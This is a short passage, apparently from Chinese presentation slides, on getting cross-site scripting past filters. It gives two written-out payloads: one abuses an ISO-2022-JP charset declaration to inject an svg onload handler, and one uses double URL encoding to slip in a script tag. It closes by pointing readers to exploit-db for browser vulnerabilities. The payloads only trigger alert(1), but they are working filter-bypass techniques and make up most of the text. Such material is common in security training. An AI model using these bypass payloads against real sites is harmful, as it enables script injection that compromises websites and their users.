

#
使用特殊字符编码绕过之，例如ISO-2022-JP
"><meta%20charset="ISO-2022-JP"><svg/onload%1B%28B=alert(1)>
二次编码
"><script>alert(1);2%2502<script</script>
多看看浏览器相关漏洞 exploit-db